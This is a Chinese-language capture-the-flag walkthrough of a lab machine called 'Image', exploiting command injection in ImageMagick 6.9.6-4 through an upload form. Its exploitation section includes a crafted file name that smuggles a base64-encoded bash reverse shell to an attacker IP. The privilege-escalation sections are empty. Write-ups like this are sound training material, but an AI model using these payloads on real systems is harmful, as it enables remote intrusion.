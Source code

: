 ```yaml
---
description: 中等 / ImageMagick 6.9.6-4 / shell命令注入
---
```


# ✔️ Image

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA image 192.168.210.178 --open
```

<figure><img src="../.gitbook/assets/1 (14).png" alt=""><figcaption></figcaption></figure>

* 首先查看80端口的Web页面进行检查，是一个有上传功能的界面，猜测可能是一个文件上传漏洞：

<figure><img src="../.gitbook/assets/2 (12).png" alt=""><figcaption></figcaption></figure>

* 根据尝试上传图片的返回信息，目标系统只接受后缀为JPEG和PNG格式的图片文件：

<figure><img src="../.gitbook/assets/3 (13).png" alt=""><figcaption></figcaption></figure>

* 上传成功一个测试图片后，发现返回了当前正在运行的ImageMagick的版本号：6.9.6-4

<figure><img src="../.gitbook/assets/4 (13).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 搜索公开已知的漏洞发现有一个命令注入的漏洞：

<figure><img src="../.gitbook/assets/5 (13).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 根据漏洞描述，得知打开任何以管道符（|）字符开头的图像文件时，ImageMagick将执行文件名剩余部分的命令，这意味着构建一个以管道符开头且包含反弹shell的图片文件名后，再次上传即图片可触发该漏洞：

<figure><img src="../.gitbook/assets/6 (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/7 (15).png" alt=""><figcaption></figcaption></figure>

```bash
# 构建过程
cp test.png '|test.png'
echo -n 'bash -i >& /dev/tcp/192.168.45.234/4444 0>&1' | base64
cp test.png '|test"`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIzNC80NDQ0IDA+JjE=| base64 -d | bash`".png'
```

<figure><img src="../.gitbook/assets/8 (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/9 (15).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 本机做好监听即可成功获取到shell：

<figure><img src="../.gitbook/assets/10 (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/11 (14).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集





### 漏洞利用





### ROOT









{% hint style="info" %}
本例属于简单级别的机器，端口开放的少，不用太多枚举就能锁定漏洞，构建文件名需要多次尝试但其利用过程简单。
{% endhint %}

